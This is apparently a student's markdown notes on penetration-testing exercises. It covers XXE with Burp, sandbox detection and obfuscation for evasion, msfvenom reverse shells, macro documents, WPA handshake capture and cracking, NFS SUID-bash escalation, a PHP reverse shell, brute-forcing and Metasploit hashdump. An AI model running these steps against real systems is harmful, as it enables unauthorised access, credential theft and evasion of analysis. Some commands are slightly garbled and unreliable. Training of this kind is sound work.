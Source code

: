 <h1>Vulnerabilities</h1>

XXE (XML External Entity) - Takes advantage of how XML handles external entities
* GOAL: Point external entity to malicious source or code
* Intercept requests with Burp Suite
* In browser -> browse website
* Proxy -> HTTP History
* Find request to exploit -> send to repeater -> edit request -> Send

Check if machine is a sandbox environment:
* Check if it has `C:\Program Files\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\ProgramFilesDir`
* If missing, machine is usually on sandbox or virtual environment
* Can make script to automate

Obfuscation - encode code that executes a vulnerability using base64 or other encoding
* Be careful of FLOSS

Reverse Shell - Target initiates connection to attacking machine
![create reverse shell payload using msfvenom](https://github.com/user-attachments/assets/aaabf49a-661d-49b7-bf64-e6b505b08884)

Malicious Document that uses macro:
![Malicious Macro Document](https://github.com/user-attachments/assets/99abee96-92ca-4d68-b979-2d85d6b9ed14)

Listen for incoming connections to establish exploit:
![Listen for incoming connections to establish exploit](https://github.com/user-attachments/assets/8d877b1c-bb98-4d60-9e12-1e82c6eac25e)

Wifi Attacks:
* sudo iw dev - shows wireless devices and their configuration
* sudo iw dev (device/interface) scan - scan nearby Wifi networks using the device
* sudo iw dev (device/interface) set type monitor - change device to monitor mode
  * turn device/interface off before doing this
  * turn device/interface on after
* sudo ip link set dev (device/interface) up - turn device on
* sudo ip link set dev (device/interface) down - turn device off
* sudo iw dev (device/interface) info - shows status of device
* sudo airodump-ng (device/interface) - shows list of nearby wifi networks and important details like encryption type
  * CAN QUITE WHEN FIND DESIRED NETWORK
* sudo airodump-ng -c (# channels to listen to) --bssid (bssid of network) -w output-file (device/interface) - targets specific network channel to capture traffic and save it files that start with output-file\
  * KEEP RUNNING
* Attack device connected to access point (BSSID under STATION section)
* open second terminal to launch deauthentication attack
  * using aireplay-ng to send deauthentication packets to disconnect wifi connection
  * capture reconnection 4-way handshake using airodump-ng that is being run
  * sudo aireplay-ng -0 1 -a (device/interface) -c (BSSID of device connected to access point)
* sudo aircrack-ng -a 2 -b (device/interface) -w /home/glitch/rockyou.txt output*cap - crack WPA/WPA2 passphrase using dictionary attack (using rockyou.txt word list)
* stop airodump-ng on first terminal
* wpa_passphrase MalwareM_AP (Pass Key) > config
* sudo wpa_supplicant -B -c config -i wlan2

Local DNS Override:
* if website doesn't open try this
* Add website to /etc/hosts
* Doesn't alert external DNS servers
* Also may show that website uses self-signed certificate
* `echo "(Website IP) (website)" >> /etc/hosts`

Man in the Middle Attack on website using self-signed certificate:
* launch burp suite
* change settings
* don't need burp suite browser
* add ip of website and port to listen to on proxy listeners
* set own machine as gateway (other things not taught in module)
* run custom script that simulates user requests to website (have to use `chmod +x (script file)` on file before executing)
* burp suite will capture new user requests and shown as long as script and burp suite is running

Cracking hashed passwords:
* use tool `python hash-id.py` to identify possible hashing techniques used

Where passwords held:
* usually held C:\Windows\System32\config\sam

Some Passwords for different websites may be default:
* just search up website's default passwords

Broken Authentication:
* sometimes there's already user registered ex: (arthur)
* can register user with space beforehand ex: ( arthur)
* maybe gain access to arthur account

NFS
* allows system to share directories and files with others over a network
* access files remotely by mounting file system on a server that can be accessed
* use /usr/sbin/showmount -e (IP) - display information about NFS mounts on a system
* mkdir /tmp/mount - creates temporary directory to mount share to
* mount - make files and directories on file system accessible
* exploitation ex:
  * sudo mount -t nfs (IP):(mount) /tmp/mount/ -nolock
  * cp ~/Downloads/bash - copy bash shell
  * sudo chown root bash - become root user to run executable
  * sudo chmod +s bash - gives permission for file to be executed with the privileges of file's owner READ UP ON FILE PERMISSION FORMAT AND MEANINGS!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
  * ssh ./bash -p - runs bash executible with the permissions

XSS
* Input code into text box
* Can use JavaScript, HTML, etc

Hydra
* open source tool used for network login cracking through brute-force attacks
* can be used with rockyou.txt

Robots.txt
* used to give instructions to web robots about locations within the web site that robots are allowed
* can be used to identify locations that are mentioned in file

GoBuster:
* tool used to brute-force websites
* ex: `gobuster dir -u http://(ip) -w (wordlist path)`
 * can add port ex: `http://(ip):(port)`
* wordlist path - /usr/share/wordlists

If you are able to edit .php file on website:
* substitute code with pentestmonkey reverse shell code. In reverse shell code edit ip and port
* start netcat
* visit page to run code and nc will show you shell

Metasploit:
* msfconsole - starts metasploit framework
* search (vulnerability code) - searches for exploitation code and puts in a list
* use (# in list or exploit path) - use exploitation
  * puts you in the context of the exploit (specific settings for that exploit)
  * show options - shows context of exploit
  * show  (module type (auxiliary, payload, exploit, etc)) - shows chow context of module
  * info - shows more information
  * back - exit context
* set (parameter name) (value) - set parameters
  * if not set as a global variable parameter settings will change if you change module being used
* setg (parameter name) (value) - set global parameters
* unset - clear parameter value (can use unset all)
* unsetg - unset global parameters (can use unsetg all)
* exploit - launch module
* ctrl + z - run session in background
* show sessions - shows sessions
* sessions -i (id) - choose session
* ps - lists processes
* migrate (pid) - migrate to process
* hashdump - dump passwords on machine if you have correct privileges
